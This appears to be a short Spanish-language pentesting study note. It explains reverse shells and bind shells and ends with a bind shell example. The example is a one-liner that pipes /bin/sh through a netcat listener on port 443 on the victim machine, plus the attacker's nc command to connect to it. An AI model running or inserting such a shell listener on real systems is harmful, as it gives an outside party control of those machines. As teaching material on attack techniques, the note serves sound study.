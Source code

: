 - **Reverse Shell** --> Reverse Shell Es un método que le da a un atacante la posibilidad de conectarse a un equipo remoto desde un equipo propio. Es decir, se crea una conexión desde el equipo comprometido hacia el equipo del atacante. Esto se consigue ejecutando un programa malintencionado o una orden específica en el equipo remoto que establece la conexión inversa hacia el equipo del atacante, permitiéndole asumir el control del equipo remoto.

-------------------------------------

- **Bind Shell** --> Esta técnica es la inversa de la Reverse Shell, ya que en vez de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante espera en un puerto específico y la máquina comprometida recibe la conexión entrante en ese puerto. El atacante entonces tiene acceso por terminal a la máquina comprometida, lo que le permite asumir el control de la misma.

Por ejemplo, desde la máquina víctima nos pondremos en escucha con netcat esperando una conexión:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 443 > /tmp/f
```
![[Pasted image 20230726104050.png]]
Y desde la máquina atacante nos conectaremos:
```bash
nc 192.168.0.44 443
```
![[Pasted image 20230726104103.png]]